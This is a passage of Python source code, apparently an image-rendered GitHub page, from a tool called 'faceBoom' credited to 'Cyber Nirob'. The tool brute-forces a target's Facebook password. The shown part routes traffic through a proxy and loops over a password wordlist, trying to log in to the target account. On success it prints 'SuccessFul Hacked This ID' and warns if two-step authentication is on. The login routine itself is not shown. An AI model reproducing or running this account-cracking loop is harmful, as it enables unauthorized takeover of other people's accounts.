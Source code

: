                 faceBoom.useProxy = final_proxy
                faceBoom.br.set_proxies({'https':faceBoom.useProxy, 'http':faceBoom.useProxy})
                print(wi+"["+gr+"Connected"+wi+"]")
             else:
                errMsg("Connection Failed")
                errMsg("Unable to connect to Proxy["+rd+str(proxy)+yl+"]")
                sys.exit(1)

        faceboom.banner(target,wordlist,single_passwd)
        loop,passwords = (1,open(wordlist).readlines()) if not single_passwd else ("~",[single_passwd])
        for passwd in passwords:
                passwd = passwd.strip()
                if len(passwd) <6:continue
                write(wi+"["+yl+str(loop)+wi+"] Try To Login With [ {"+yl+str(passwd)+wi+"} ]")
                retCode = faceboom.login(target, passwd)
                if retCode:
                    sys.stdout.write(gr+" ==> SuccessFul Hacked This ID\n")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    if retCode == 2:print(wi+"["+yl+"!"+wi+"]"+yl+" Warning: This Account Use ("+rd+"2 Step Authentication"+yl+"):"+rd+" Try To Login"+yl+" !!!")
                    break
                else:
                    sys.stdout.write(yl+" ==> This Is NoT Id Password\n")
                    loop = loop + 1 if not single_passwd else "~"
        else:
                if single_passwd:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another password or Wordlist "+gr+":)"+wi)
                else:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"Cyber Nirob Can't Find The This Id Password Please More Add Password[ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Add More Wordlist. "+gr+":)"+wi)
        sys.exit(1)
   else:
       print(parse.usage)
       sys.exit(1)


if __name__=='__main__':
    Main()
